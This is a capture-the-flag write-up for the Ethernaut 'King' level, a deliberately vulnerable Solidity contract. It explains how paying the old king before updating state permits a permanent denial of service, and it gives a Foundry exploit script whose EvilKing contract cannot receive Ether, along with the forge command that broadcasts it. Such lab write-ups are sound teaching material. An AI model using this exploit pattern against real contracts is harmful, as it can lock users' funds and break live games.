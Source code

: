 ```yaml
---
title: 'King - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level9.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-19
lastmod: 2025-09-19
---
```


## Challenge Overview

This level presents a simple ponzi-style game where users can become the "king" by sending more Ether than the current prize. The previous king receives the new payment, and the sender becomes the new king. The challenge is to break the game such that when the level attempts to reclaim kingship, it cannot do so.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

---

## Exploit Explanation

The vulnerability lies in the sequence of operations in the `receive()` function:

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);  // This can fail
    king = msg.sender;
    prize = msg.value;
}
```

The function:
1. Checks if the sent value is sufficient
2. **Transfers the funds to the current king**
3. **Then** updates the king and prize variables

The exploit involves creating a contract that becomes king but **cannot receive Ether**. When someone else tries to become king:

1. They send Ether to the King contract
2. The King contract tries to send the funds to our malicious contract (the current king)
3. The transfer fails because our contract cannot receive Ether
4. The entire transaction reverts, preventing the kingship change

This creates a permanent denial-of-service condition where no one can become the new king.

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/King.sol";

contract EvilKing {
    // Constructor becomes king by sending exactly the current prize amount
    constructor(King _kingInstance) payable {
        // Call the King contract with the exact prize amount
        // This will make this contract the new king
        (bool success, ) = address(_kingInstance).call{value: _kingInstance.prize()}("");
        require(success, "Failed to claim kingship");
    }
    
    // NO receive() or fallback() function - this contract cannot receive Ether!
}

contract KingSolution is Script {
    King public kingInstance = King(payable(<YOUR_INSTANCE>));

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        // Check current king and prize before attack
        console.log("Current king:", kingInstance._king());
        console.log("Current prize:", kingInstance.prize());
        
        // Deploy EvilKing contract with exactly the current prize amount
        // This will make EvilKing the new king
        new EvilKing{value: kingInstance.prize()}(kingInstance);
        
        // Verify we are now the king
        console.log("New king:", kingInstance._king());
        console.log("My contract address:", address(this));
        
        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/KingSolution.s.sol --rpc-url $SEPOLIA_URL --tc KingSolution --broadcast
```